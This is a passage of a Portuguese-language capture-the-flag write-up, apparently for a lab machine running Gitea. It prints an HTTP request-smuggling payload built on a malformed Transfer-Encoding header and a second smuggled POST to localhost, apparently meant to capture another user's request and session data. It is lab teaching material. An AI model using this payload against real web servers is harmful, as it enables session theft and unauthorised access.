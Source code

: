 Agora altere a requisição para o formato abaixo e com os mesmos `_csrf` e `Cookie` mas não mude o seu `session cookie`.

```
POST /comment HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 357
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/home
Cookie: lang=zh-CN; i_like_gitea=1e8c376ed33ccd6e; _csrf=bsRZO43k9rTxqa5xKtfSmm747Y86MTYxMjc2MjIxNjA0MTE3MDI2MA; session=eyJlbWFpbCI6Img0MXN0dXJAaDQxc3R1ci5jb20ifQ.YUPQMg.1gIaOZDmrFyg_sGLg3TlV-LTkz8
Upgrade-Insecure-Requests: 1
Transfer-Encoding: Cwo=chunked

5
msg=h
0

POST /comment HTTP/1.1
Host: localhost:5000
Cookie: lang=zh-CN; i_like_gitea=1e8c376ed33ccd6e; _csrf=bsRZO43k9rTxqa5xKtfSmm747Y86MTYxMjc2MjIxNjA0MTE3MDI2MA; session=eyJlbWFpbCI6Img0MXN0dXJAaDQxc3R1ci5jb20ifQ.YUPQMg.1gIaOZDmrFyg_sGLg3TlV-LTkz8
Content-Length: 300
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

msg=
```

É importante que habilitemos a opção `Show non-printable chars` no BURP.
